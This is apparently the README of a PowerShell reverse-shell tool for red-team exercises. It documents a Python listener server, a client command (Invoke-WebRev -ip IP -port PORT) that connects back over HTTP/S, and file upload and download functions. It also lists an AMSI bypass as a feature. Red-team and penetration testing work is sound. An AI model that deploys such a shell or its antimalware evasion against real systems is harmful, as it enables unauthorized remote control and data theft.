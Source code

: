 # Powershell HTTP/S Reverse Shell
HTTP-revshell is a tool focused on redteam exercises and pentesters. This tool provides a reverse connection through the http/s protocol.

##  server.py - server unisession

![Alt text](images/revshell.jpg "Server")

Server usage:
```
usage: server.py [-h] [--ssl] host port

Process some integers.

positional arguments:
  host        Listen Host
  port        Listen Port

optional arguments:
  -h, --help  show this help message and exit
  --ssl       Send traffic over ssl
```

##  server-multisession.py - server multisession
```
This server allows multiple connection of clients.
There is a menu with three basic commands: sessions, interact and exit
     - sessions --> show currently active sessions
     - interact --> interacts with a session (Example: interact <session_id>)
     - exit --> close the application

**IMPORTANT**: To change the session press CTRL + d to exit the current session without closing it.
```

## Invoke-WebRev.ps1 - client

Client usage:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

# Extra functions
```
Upload
    Usage: upload /src/path/file C:\dest\path\file
```

```
Download
    Usage: download C:\src\path\file /dst/path/file
```

# Features
    - SSL
    - Proxy Aware
    - Upload Function
    - Download Function
    - Error Control
    - AMSI bypass
    - Multiple sessions (only server-multisession.py)

# TODO
    - Autocomplete
    
